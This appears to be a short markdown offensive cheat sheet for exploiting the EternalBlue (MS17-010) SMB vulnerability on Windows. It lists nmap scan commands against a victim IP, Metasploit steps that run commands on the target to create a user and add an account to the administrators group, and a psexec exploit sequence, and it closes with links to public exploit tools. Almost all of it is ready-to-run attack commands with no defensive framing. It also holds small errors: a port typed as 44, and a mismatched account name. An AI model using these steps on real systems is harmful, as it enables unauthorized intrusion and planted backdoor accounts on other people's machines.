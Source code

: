 ## eternal blue (ms17_010)

nmap nse:
- nmap -v --script vuln [victim_ip] -p 445,139
- nmap -sV -script smb-vuln-ms17-010.nse [victim_ip] -p 139,44

## eternal blue commands(via metasploit)
- use auxiliary/admin/smb/ms17_010_command
- set rhosts [victim_ip]
- set rport 445
- **set command net user test test123! /add**
- run
- **set command net localgroup administrators tester /add**
- run
## eternal blue psexec (via metasploit)
- use exploit/windows/smb/ms17_010_psexec
- set rhosts [victim_ip]
- run

### tools
- https://github.com/worawit/MS17-010
- https://github.com/3ndG4me/AutoBlue-MS17-010
- https://github.com/sailay1996/eternal-pulsar
- https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a
- https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/
